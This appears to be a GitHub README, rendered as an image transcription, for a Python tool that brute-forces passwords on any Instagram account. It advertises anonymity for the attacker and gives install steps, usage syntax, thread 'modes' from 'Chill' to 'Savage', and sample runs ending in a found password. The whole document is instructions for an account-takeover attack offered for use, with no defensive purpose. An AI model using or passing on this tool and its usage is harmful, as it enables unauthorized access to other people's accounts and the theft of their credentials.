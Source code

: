 
 ____    __    ____     ____    __     ___  __  __  ___    ____  ____  __  __  ____  ____ 
(_   )  /__\  (  _ \   (  _ \  /__\   / __)(  )(  )/ __)  (  _ \(  _ \(  )(  )(_  _)( ___)
 / /_  /(__)\  )(_) )   ) _ < /(__)\ ( (_-. )(__)( \__ \   ) _ < )   / )(__)(   )(   )__) 
(____)(__)(__)(____/   (____/(__)(__) \___/(______)(___/  (____/(_)\_)(______) (__) (____)
                                                                          

Paypal Donate:
tnzmyname@gmail.com

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

# NOTICE

This project is no longer maintained; I got bored of it. So, please don't ask me for help. Peace be with you.

### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\zico\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\zico\Desktop\Instagram>python3 instagram.py Email/user.txt passwordmu.txt -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\Zico\Desktop\Instagram>python3 instagram.py Email/user.txt passwordmu.txt -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\Zico\Desktop\Instagram>python3 instagram.py Email/user.txt passwordmu.txt -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\Zico\Desktop\Instagram>python3 instagram.py Email/user.txt passwordmu.txt -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: passwordmu.txt
[-] Username: Email/user.txt
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: passwordmu.txt
[-] Username: Email/user.txt
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Email/user.txt
[+] Password: Sami123
```
